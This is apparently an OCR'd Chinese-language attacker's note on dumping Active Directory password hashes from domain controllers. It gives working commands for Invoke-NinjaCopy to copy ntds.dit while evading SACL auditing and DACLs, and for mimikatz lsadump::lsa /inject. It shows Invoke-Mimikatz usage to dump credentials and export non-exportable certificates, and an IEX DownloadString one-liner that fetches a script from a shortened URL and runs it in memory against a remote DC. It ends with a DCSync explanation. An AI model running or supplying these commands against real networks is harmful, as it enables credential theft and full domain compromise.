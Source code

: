 		0x03 使用 PowerSploit 的 Invoke-NinjaCopy 远程读取 ntds.dit(需要目标 DC 启用 PowerShell 远程管理)
			Joe Bialek (@JosephBialek)在他的博客中写了如下关于 Invoke-NinjaCopy 的信息。
				目前，已有好几种方法可以转储 Active Directory 和本地密码的 HASH。
				不过直到最近，我发现目前获取 HASH 的技术，需 要依赖于注入代码到 LSASS 进程或使用 VSS ，以获得含有 HASH 文件的副本。
				我创建了一个名为 Invoke-NinjaCopy 的 PowerShell 脚本，支持任何文件(包括NTDS.DIT)的复制，
				无需启动可疑的服务，无需注入代码到进程中，或者提升到 SYSTEM 权限。
			该脚本可以打开整个卷(如C:)的读取句柄并解析 NTFS 结构，从而从一个 NTFS 卷复制文件。此操作需要目标服务器的管理员权限。利用此脚本可以绕过以下保护措施：
				一个已被进程打开且不能被其他进程操作的文件，如 Ntds.dit 文件或注册表中的 SYSTEM hive 配置文件。
				已被设置 SACL 标志的文件，在打开此类文件时，会有提醒(此脚本没有使用 Win32 API 打开文件，因此Windows 没有反应)。
				绕过 DACL ，例如 DACL 只允许 SYSTEM 权限打开一个文件。
				如果指定了 LocalDestination 参数，则文件将被复制到本地服务器(脚本正在从运行的服务器)中指定的文件路径。
				如果指定了 RemoteDestination 参数，则该文件将被复制到远程服务器中指定的文件路径。
					Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -ComputerName "RDLABDC02" -LocalDestination "c:\temp\ntds.dit"
				使用 DIT 快照查看器(https://github.com/yosqueoy/ditsnap) ，可以验证我们是否顺利拿到了Ntds.dit 文件。
		
		0x04 在 DC 中使用 Mimikatz 转储 Active Directory 凭据
			一般情况下服务帐户就是域管理员组或同等权限的成员或者攻击者从域管理员最近登录到的计算机中 dump 出登录凭证。
			使用这些凭据，攻击者可以访问域控制器，并可以得到所有的域凭据，其中包括用于创建 Kerberos 的黄金票证的 KRBTGT 帐户的 NTLM 哈希值。
			1. mimikatz.exe从域控上面抓取到所有账户信息:
				mimikatz lsadump::lsa /inject exit
				保存到mimikatz.log:
					# log
					# privilege::debug
					# lsadump::lsa /inject
				在域控制器上运行时，Active Directory域中转储凭证数据。需要管理员访问调试或本地SYSTEM权限
				注意：RID 502的帐户是KRBTGT帐户，RID 500的帐户是该域的默认管理员。
				
			2. Invoke-Mimikatz本地转储Active Directory凭据
				使用 mimikatz 从 LSASS 进程转储凭证 ： Invoke-Mimikatz -DumpCreds
				使用 mimikatz 导出所有私有证书即使它们已被标记为不可导出 ： Invoke-Mimikatz –DumpCerts
				在远程计算机上使用 debug 提升权限：Invoke-Mimikatz -Command "privilege::debug exit" -ComputerName "computer1"
				or Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /inject" exit'
				
			3. 使用 Invoke-Mimikatz 远程转储 Active Directory 凭据 (通过 PowerShell 远程管理)  
				从外网下载并完全是在内存中执行代码
				IEX(New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -Command '"privilege::debug" "LSADump:LSA /inject"' -Computer dc2010.demo.local
		
		0x05 使用 Mimikatz 的 DCSync 功能远程转储 Active Directory 凭据
			新的特性—— “DCSync”，可以有效地“假冒”一个域控制器，并可以向目标域控制器请求帐户密码数据。
			之前利用 DCSync 的攻击方法是在域控制器上运行 Mimikatz 或 Invoke-Mimikatz 得到 KRBTGT 账户的密码哈希创建黄金票证。
			如果使用适当的权限执行 Mimikatz 的 DCSync 功能，攻击者就可以通过网络远程读取域控制器的密码哈希，以及以前的密码的哈希，
			且无需交互式登录或复制 Active Directory 的数据库文件NTDS.DIT。
			
			运行 DCSync 所要求的特殊权限有管理员组Administrators，域管理员组 Domain Admins或企业管理员组Enterprise Admins
			以及域控制器计算机帐户的任何成员都能够运行 DCSync 去读取密码数据。
			需要注意的是只读域控制器默认是不允许读取用户密码数据的。
			